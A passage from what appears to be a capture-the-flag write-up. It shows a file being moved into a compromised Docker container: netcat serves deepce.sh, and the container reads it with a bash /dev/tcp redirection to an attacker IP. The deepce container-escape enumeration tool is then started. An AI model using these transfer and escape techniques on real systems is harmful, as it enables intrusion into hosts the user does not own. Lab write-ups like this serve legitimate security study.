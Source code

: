 To get a file up, I’ll kill the `nc` window and re-run it like this:

```

oxdf@hacky$ md5sum deepce.sh 
fbbbd13e42ed84c07f8fde52ac035706  deepce.sh
oxdf@hacky$ cat deepce.sh | nc -lnvp 9001
Listening on 0.0.0.0 9001

```

Now I’ll do the same thing, but this time save it to a file:

```

root@c150397ccd63:/dev/shm# exec 3<>/dev/tcp/10.10.14.6/9001
root@c150397ccd63:/dev/shm# cat <&3 > deepce.sh             
^C
root@c150397ccd63:/dev/shm# md5sum deepce.sh 
fbbbd13e42ed84c07f8fde52ac035706  deepce.sh

```

There’s no end to the socket, so I’ll have to Ctrl-c it after a few seconds. The hashes match, so I’m good there.

### deepce

#### Initial Run

I’ll upload [deepce](https://github.com/stealthcopter/deepce) is a neat tool for looking for basic Docker vulnerabilities. It hasn’t been significantly updated in a couple years, but it still does a good job of identifying many classes of vulnerability. It’s a pure `sh` script with very few dependencies, so it is likely to run on the most stripped down containers.

I’ll upload it to the container using the method shown above, and give it a run:

```

root@c150397ccd63:/dev/shm# bash deepce.sh 

                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __
     ____/ /__  ___  ____  ________
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/

 Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
 by stealthcopter

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
[+] Multi line test ......... Yes
Command output
spanning multiple lines
```